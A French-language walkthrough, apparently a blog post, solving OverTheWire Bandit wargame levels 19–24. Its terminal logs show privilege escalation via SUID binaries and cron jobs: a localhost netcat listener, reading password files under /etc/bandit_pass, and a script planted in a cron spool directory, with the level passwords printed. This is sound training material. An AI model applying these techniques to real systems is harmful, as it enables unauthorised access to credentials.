 ```yaml
---
layout: post
title: OverTheWire - Bandit 4 - Elevation de privilèges
subtitle: OverTheWire - Bandit - Level 19 → 24 - SUID + Cron
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [Waregame, CTF, OverTheWire, Elevation de privilèges, EoP, SUID, Cron, Commandes, Linux, Write-Up]
comments: false
---
```


**Le wargame d'Over The Wire permet d'effectuer des élévations de privilège (EoP) dans un environnement Linux. Voici les solutions des challs exploitant le flag SUID ou le processus cron**

# bandit20 - SUID 1

~~~
bandit19@bandit:~$ ls -la
total 28
drwxr-xr-x  2 root     root     4096 May  7 20:14 .
drwxr-xr-x 41 root     root     4096 May  7 20:14 ..
-rwsr-x---  1 bandit20 bandit19 7296 May  7 20:14 bandit20-do
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-rw-r--r--  1 root     root      675 May 15  2017 .profile
bandit19@bandit:~$ ./bandit20-do
Run a command as another user.
  Example: ./bandit20-do id
bandit19@bandit:~$ ./bandit20-do id
uid=11019(bandit19) gid=11019(bandit19) euid=11020(bandit20) groups=11019(bandit19)
bandit19@bandit:~$ ./bandit20-do cat .profile
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi
bandit19@bandit:~$ ./bandit20-do cat /etc/bandit_pass/
cat: /etc/bandit_pass/: Is a directory
bandit19@bandit:~$ ./bandit20-do ls /etc/bandit_pass/
bandit0   bandit11  bandit14  bandit17  bandit2   bandit22  bandit25  bandit28  bandit30  bandit33  bandit6  bandit9
bandit1   bandit12  bandit15  bandit18  bandit20  bandit23  bandit26  bandit29  bandit31  bandit4   bandit7
bandit10  bandit13  bandit16  bandit19  bandit21  bandit24  bandit27  bandit3   bandit32  bandit5   bandit8
bandit19@bandit:~$ ./bandit20-do cat /etc/bandit_pass/bandit20
GbKksEFF4yrVs6il55v6gwY5aVje5f0j
bandit19@bandit:~$
~~~

# bandit21 - SUID 2

On utilise tmux, on ouvre un listener d'un côté et on utilise le fichier suid de l'autre

~~~
bandit20@bandit:~$ ls -la                                   │bandit20@bandit:~$ nc -nlvp 1234
total 32                                                    │listening on [any] 1234 ...
drwxr-xr-x  2 root     root      4096 May  7 20:14 .        │connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33430
drwxr-xr-x 41 root     root      4096 May  7 20:14 ..       │GbKksEFF4yrVs6il55v6gwY5aVje5f0j
-rw-r--r--  1 root     root       220 May 15  2017 .bash_log│gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
out                                                         │bandit20@bandit:~$
-rw-r--r--  1 root     root      3526 May 15  2017 .bashrc  │
-rw-r--r--  1 root     root       675 May 15  2017 .profile │
-rwsr-x---  1 bandit21 bandit20 12088 May  7 20:14 suconnect│
bandit20@bandit:~$ ./suconnect 1234                         │
GbKksEFF4yrVs6il55v6gwY5aVje5f0j                            │
Read: GbKksEFF4yrVs6il55v6gwY5aVje5f0j                      │
Password matches, sending next password                     │
bandit20@bandit:~$ GbKksEFF4yrVs6il55v6gwY5aVje5f0j         │
-bash: GbKksEFF4yrVs6il55v6gwY5aVje5f0j: command not found  │
bandit20@bandit:~$                                          │
~~~

# bandit22 - Cron 1

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed

~~~
bandit21@bandit:~$ ls -la
total 24
drwxr-xr-x  2 root     root     4096 May  7 20:14 .
drwxr-xr-x 41 root     root     4096 May  7 20:14 ..
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-r--------  1 bandit21 bandit21   33 May  7 20:14 .prevpass
-rw-r--r--  1 root     root      675 May 15  2017 .profile
bandit21@bandit:~$ cd /etc/cron.d
bandit21@bandit:/etc/cron.d$ ls -la
total 24
drwxr-xr-x  2 root root 4096 May  7 20:14 .
drwxr-xr-x 87 root root 4096 May  7 20:14 ..
-rw-r--r--  1 root root  120 May  7 20:14 cronjob_bandit22
-rw-r--r--  1 root root  122 May  7 20:14 cronjob_bandit23
-rw-r--r--  1 root root  120 May  7 20:14 cronjob_bandit24
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder
bandit21@bandit:/etc/cron.d$ cat cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
bandit21@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:/etc/cron.d$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
bandit21@bandit:/etc/cron.d$
~~~

# bandit23 - Cron 2

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

~~~
bandit22@bandit:~$ cd /etc/cron.d
bandit22@bandit:/etc/cron.d$ ls -la
total 24
drwxr-xr-x  2 root root 4096 May  7 20:14 .
drwxr-xr-x 87 root root 4096 May  7 20:14 ..
-rw-r--r--  1 root root  120 May  7 20:14 cronjob_bandit22
-rw-r--r--  1 root root  122 May  7 20:14 cronjob_bandit23
-rw-r--r--  1 root root  120 May  7 20:14 cronjob_bandit24
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:/etc/cron.d$ whoami
bandit22
bandit22@bandit:/etc/cron.d$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit22@bandit:/etc/cron.d$
~~~

# bandit24 (se loguer avec les credentials de bandit17) - Cron 3

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

~~~
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit2
cat: cronjob_bandit2: No such file or directory
bandit23@bandit:/etc/cron.d$ clear
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done


bandit23@bandit:/etc/cron.d$ mkdir /tmp/xss0rz
bandit23@bandit:/etc/cron.d$ chmod -R 777 /tmp/xss0rz
bandit23@bandit:/etc/cron.d$ ls -la /tmp/xss0rz
total 24
drwxrwxrwx   2 bandit23 root  4096 May  8 12:51 .
drwxrws-wt 270 root     root 20480 May  8 12:52 ..
bandit23@bandit:/etc/cron.d$ vim /tmp/xss0rz/poc.sh
bandit23@bandit:/etc/cron.d$ cat /tmp/xss0rz/poc.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/xss0rz/pass
bandit23@bandit:/etc/cron.d$ chmod 777 /tmp/xss0rz/poc.sh
bandit23@bandit:/etc/cron.d$ ls -la /tmp/xss0rz/poc.sh
-rwxrwxrwx 1 bandit23 bandit23 61 May  8 12:53 /tmp/xss0rz/poc.sh
bandit23@bandit:/etc/cron.d$ touch /tmp/xss0rz/pass
bandit23@bandit:/etc/cron.d$ chmod 777 /tmp/xss0rz/pass
bandit23@bandit:/etc/cron.d$ cp /tmp/xss0rz/poc.sh /var/spool/bandit24/
bandit23@bandit:/etc/cron.d$ ls -la /var/spool/bandit24/poc.sh
ls: cannot access '/var/spool/bandit24/poc.sh': No such file or directory
bandit23@bandit:/etc/cron.d$ ls -la /tmp/xss0rz
total 32
drwxrwxrwx   2 bandit23 root      4096 May  8 12:54 .
drwxrws-wt 270 root     root     20480 May  8 12:55 ..
-rwxrwxrwx   1 bandit23 bandit23    33 May  8 12:55 pass
-rwxrwxrwx   1 bandit23 bandit23    61 May  8 12:53 poc.sh
bandit23@bandit:/etc/cron.d$ cat /tmp/xss0rz/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
~~~

**Retrouvez les solutions :**
- pour les niveaux 0 à 10 : [OverTheWire -Bandit 1](https://0xss0rz.github.io/2019-08-20-OverTheWire-Bandit-1-Write-Ups/)
- pour les niveaux 11 à 23 : [OverTheWire - Bandit 2](https://0xss0rz.github.io/2019-08-22-OverTheWire-Bandit-2-Write-Ups/)
- pour la partie réseau, SSH, SSL et telnet: [OverTheWire - Bandit 3](https://0xss0rz.github.io/2020-05-16-OverTheWire-Bandit-3-SSH-Part/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
